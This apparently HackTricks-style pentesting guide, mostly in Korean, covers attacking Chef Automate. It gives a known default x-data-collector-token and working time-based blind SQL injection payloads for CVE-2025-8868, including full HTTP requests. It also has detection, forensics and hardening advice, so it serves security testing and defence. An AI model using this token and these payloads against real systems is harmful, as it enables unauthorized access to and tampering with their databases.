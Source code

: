 # Chef Automate Enumeration & Attacks

{{#include ../../banners/hacktricks-training.md}}

## 개요

이 페이지는 Chef Automate 인스턴스를 열거하고 공격하기 위한 실용적인 기법을 모아두었으며, 다음 항목에 중점을 둡니다:
- gRPC-Gateway-backed REST endpoints를 발견하고 validation/오류 응답을 통해 요청 스키마를 유추
- 기본값이 남아 있는 경우 x-data-collector-token 인증 헤더 남용
- Compliance API (CVE-2025-8868)에서 /api/v0/compliance/profiles/search의 filters[].type 필드에 영향을 주는 Time-based blind SQL injection

> 참고: grpc-metadata-content-type: application/grpc 헤더를 포함하는 백엔드 응답은 일반적으로 REST 호출을 gRPC 서비스로 브리지하는 gRPC-Gateway를 의미합니다.

## Recon: Architecture and Fingerprints

- Front-end: Often Angular. 정적 번들은 REST 경로(예: /api/v0/...)를 유추할 수 있습니다.
- API transport: REST to gRPC via gRPC-Gateway
- Responses may include grpc-metadata-content-type: application/grpc
- Database/driver fingerprints:
- Error bodies starting with pq: strongly suggest PostgreSQL with the Go pq driver
- Interesting Compliance endpoints (auth required):
- POST /api/v0/compliance/profiles/search
- POST /api/v0/compliance/scanner/jobs/search

## Auth: Data Collector Token (x-data-collector-token)

Chef Automate는 전용 헤더로 요청을 인증하는 data collector를 노출합니다:

- Header: x-data-collector-token
- Risk: 일부 환경에서는 보호된 API 경로에 접근할 수 있는 기본 토큰이 남아 있을 수 있습니다. 실세계에서 관찰된 알려진 기본값:
- 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

해당 토큰이 존재하면 인증이 필요한 Compliance API 엔드포인트를 호출하는 데 사용될 수 있습니다. 하드닝 시 기본값을 교체하거나 비활성화하도록 항상 시도하십시오.

## API Schema Inference via Error-Driven Discovery

gRPC-Gateway-backed endpoints often leak 유용한 검증 오류를 통해 예상되는 요청 모델을 드러냅니다.

For /api/v0/compliance/profiles/search, the backend expects a body with a filters array, where each element is an object with:

- type: string (filter field identifier)
- values: array of strings

Example request shape:
```json
{
"filters": [
{ "type": "name", "values": ["test"] }
]
}
```
잘못된 JSON이나 잘못된 필드 타입은 일반적으로 힌트를 포함한 4xx/5xx 응답을 유발하며, 헤더는 gRPC-Gateway의 동작을 나타냅니다. 이를 사용해 필드를 매핑하고 인젝션 표면을 국지화하세요.

## 컴플라이언스 API SQL Injection (CVE-2025-8868)

- 영향받는 엔드포인트: POST /api/v0/compliance/profiles/search
- Injection point: filters[].type
- 취약성 분류: time-based blind SQL injection in PostgreSQL
- 근본 원인: dynamic SQL fragment에 type 필드를 보간할 때 적절한 parameterization/whitelisting이 없어 발생합니다(대개 identifiers/WHERE clauses를 구성하는 데 사용됨). type에 포함된 조작된 값이 PostgreSQL에서 평가됩니다.

동작하는 time-based payload:
```json
{"filters":[{"type":"name'||(SELECT pg_sleep(5))||'","values":["test"]}]}
```
Technique notes:
- 원래 문자열을 single quote로 닫습니다
- pg_sleep(N)을 호출하는 subquery를 연결합니다
- ||을 통해 string context로 다시 진입하여 최종 SQL이 type이 삽입된 위치와 관계없이 문법적으로 유효하도록 합니다

### differential latency를 통한 검증

paired requests를 보내고 response times를 비교하여 서버 측 실행을 검증합니다:

- N = 1 second
```
POST /api/v0/compliance/profiles/search HTTP/1.1
Host: <target>
Content-Type: application/json
x-data-collector-token: 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

{"filters":[{"type":"name'||(SELECT pg_sleep(1))||'","values":["test"]}]}
```
- N = 5초
```
POST /api/v0/compliance/profiles/search HTTP/1.1
Host: <target>
Content-Type: application/json
x-data-collector-token: 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

{"filters":[{"type":"name'||(SELECT pg_sleep(5))||'","values":["test"]}]}
```
Observed behavior:
- Response times scale with pg_sleep(N)
- HTTP 500 responses may include pq: details during probing, confirming SQL execution paths

> 팁: 타이밍 검증기(예: 통계 비교를 위한 다중 시도)를 사용하여 노이즈와 오탐을 줄이세요.

### 영향

인증된 사용자 또는 기본 x-data-collector-token을 악용하는 인증되지 않은 행위자는 Chef Automate의 PostgreSQL 컨텍스트에서 임의의 SQL을 실행할 수 있으며, 이로 인해 컴플라이언스 프로파일, 구성 및 텔레메트리의 기밀성과 무결성이 위협받을 수 있습니다.

### 영향을 받는 버전 / 수정

- CVE: CVE-2025-8868
- 업그레이드 권고: 벤더 권고에 따라 Chef Automate 4.13.295 이상 (Linux x86)

## 탐지 및 포렌식

- API layer:
- /api/v0/compliance/profiles/search에서 filters[].type에 따옴표('), 연결(||) 또는 pg_sleep 같은 함수 참조가 포함된 경우 500 응답을 모니터링하세요
- grpc-metadata-content-type 응답 헤더를 검사하여 gRPC-Gateway 흐름을 식별하세요
- Database layer (PostgreSQL):
- pg_sleep 호출과 잘못된 식별자 오류를 감사하세요(종종 Go pq 드라이버에서 오는 pq: 접두사로 표출됩니다)
- Authentication:
- 특히 알려진 기본값을 포함한 x-data-collector-token 사용을 API 경로 전반에서 로그 및 알림으로 기록하세요

## 완화 및 하드닝

- 즉각적인 조치:
- 기본 data collector 토큰을 교체하거나 비활성화하세요
- data collector 엔드포인트로의 인그레스를 제한하고 강력하고 고유한 토큰을 적용하세요
- 코드 수준:
- 쿼리를 파라미터화하세요; SQL 조각을 문자열로 연결하지 마세요
- 서버에서 허용되는 type 값을 엄격히 화이트리스트화하세요 (enum)
- 식별자/절에 대한 동적 SQL 조립을 피하세요; 동적 동작이 필요하다면 안전한 식별자 인용과 명시적 화이트리스트를 사용하세요

## 실전 테스트 체크리스트

- x-data-collector-token이 수락되는지, 알려진 기본값이 동작하는지 확인하세요
- 검증 오류를 유발하고 오류 메시지/헤더를 읽어 Compliance API 요청 스키마를 매핑하세요
- 값 배열이나 최상위 텍스트 필드뿐만 아니라 덜 명백한 “식별자-유사” 필드(예: filters[].type)에서 SQLi를 테스트하세요
- 연결(concatenation)을 사용한 시간 기반 기법으로 문맥 전반에서 SQL이 구문상 유효하도록 유지하세요

## References

- [Cooking an SQL Injection Vulnerability in Chef Automate (XBOW blog)](https://xbow.com/blog/cooking-an-sql-injection-vulnerability-in-chef-automate)
- [Timing trace (XBOW)](https://xbow-website.pages.dev/traces/chef-automate-sql-injection/)
- [CVE-2025-8868](https://www.cve.org/CVERecord?id=CVE-2025-8868)
- [gRPC-Gateway](https://github.com/grpc-ecosystem/grpc-gateway)
- [pq PostgreSQL driver for Go](https://github.com/lib/pq)

{{#include ../../banners/hacktricks-training.md}}
